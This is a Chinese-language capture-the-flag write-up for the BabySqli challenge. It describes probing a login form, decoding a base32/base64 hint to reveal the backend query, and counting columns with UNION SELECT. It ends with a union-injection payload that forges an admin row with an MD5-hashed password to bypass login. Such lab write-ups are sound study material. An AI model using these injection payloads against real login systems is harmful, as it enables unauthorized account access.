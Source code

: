 ### buuoj_[GXYCTF2019]BabySqli

这个又是个sql注入题哈，先输入几个数据

```
1.name=admin;pw=1234
wrong pass
2.name=123;pw=1234
wrong user
3.name=1';pw=1234
Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1''' at line 1 
4.name=1" or 1=1 #;pw=12345
do not hack me!
```

可以看出，用户肯定有admin，那么思路就有了，就是得到admin的密码，而且再返回界面可以看到这样一串字符

```
<!--MMZFM422K5HDASKDN5TVU3SKOZRFGQRRMMZFM6KJJBSG6WSYJJWESSCWPJNFQSTVLFLTC3CJIQYGOSTZKJ2VSVZRNRFHOPJ5-->
```

不知道是什么加密。。。看了下大佬的wp，发现是先base32再base64

> base32 和 base64 的区别：
> base32 只有大写字母和数字数字组成，或者后面有三个等号。
> base64 只有大写字母和数字，小写字母组成，后面一般是两个等号。

解出来是

```
select * from user where username = '$name'
```

可以使用联合注入测试一下列数

```
1' union select 1,2,3,4#
```

![](https://pic.imgdb.cn/item/611bc34b4907e2d39cad20ba.jpg)

```
1' union select 1,2,3#
```

![](https://pic.imgdb.cn/item/611bc3734907e2d39cadbaa4.jpg)

这就说明一共是三列，测试一下admin也就是user在哪一列

```
1' union select 1,'admin',2#
```

![](https://pic.imgdb.cn/item/611bc3b84907e2d39caec9d8.jpg)

返回错误密码，那么user就是第二列，同样的可以知道password是第三列

然后，然后就卡住了。。。

然后看大佬wp。。。

> **联合注入有个技巧。在联合查询并不存在的数据时，联合查询就会构造一个 虚拟的数据**

意思就是，查询一个不存在的数据，就会新建这个数据，那么，就可以利用这个，创建一个admin用户，从而混淆原来的admin，达到修改admin密码的目的，而且好像password还用了md5加密？？？从哪看出来的。。。

所有构造语句

```
1' union select 1,'admin','	202cb962ac59075b964b07152d234b70'#	#123的MD5加密
```

试了半天发现不行，仔细一看发现是在search.php界面才可以。。。

![](https://pic.imgdb.cn/item/611bc7584907e2d39cbd4230.jpg)

